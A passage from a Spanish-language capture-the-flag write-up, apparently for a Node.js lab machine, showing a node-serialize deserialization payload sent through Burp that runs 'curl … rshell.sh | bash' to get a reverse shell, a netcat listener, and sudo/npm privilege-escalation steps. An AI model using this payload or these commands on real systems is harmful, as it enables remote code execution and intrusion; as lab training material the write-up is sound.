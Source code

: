 - Compartimos la **_rshell-sh_**, desde un servidor en python como se observa a continuación:

```go
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Nos ponemos por escucha desde el puerto **_2222_**:

```go
└─# nc -nlvp 2222
listening on [any] 2222 ...
```

- Cargamos nuestro payload en burpsuite:


{"username":"\_$$ND_FUNC$$\_function (){\n \t require('child_process').exec('curl 10.9.0.27/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout) });}()","isGuest":false,"encoding": "utf-8"}
```

![Burp](/assets/images/thm-writeup-vuln/vuln_payload.png)

- Codificacmos el payload en base 64:

![Burp](/assets/images/thm-writeup-vuln/vuln_payload_64.png)

- Obtenemos nuestra reverse shell:

![Burp](/assets/images/thm-writeup-vuln/vuln_exploit.png)

## 6. Bandera de usuario

- Buscamos la forma de escalar privilegios con el comando **_sudo -l_**, en la salida podemos ver que se puerde ejecutar **_npm_** como **_usr_**:


sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

---

- Buscamos en GTFOBins como podemos ejecutar el binario /npm como super usuario <https://gtfobins.github.io/gtfobins/npm/>
